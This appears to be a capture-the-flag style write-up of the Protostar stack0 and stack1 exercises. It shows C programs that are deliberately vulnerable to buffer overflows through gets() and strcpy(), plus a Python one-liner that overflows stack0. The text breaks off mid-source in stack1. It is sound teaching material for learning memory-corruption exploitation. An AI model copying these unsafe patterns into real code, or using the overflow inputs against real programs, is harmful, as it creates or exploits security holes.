 # Protostart
* [Protostar Website](https://web.archive.org/web/20170318192755/https://exploit-exercises.com/protostar/)
* [Offset Pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
## stack0

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
!!! note
    This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.
    This level is at /opt/protostar/bin/stack0

```
user@protostar:/opt/protostar/bin$ python -c 'print("A"*65)' | ./stack0
you have changed the 'modified' variable
```
!!! note
    * buffersize 64 bytes


## stack1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
```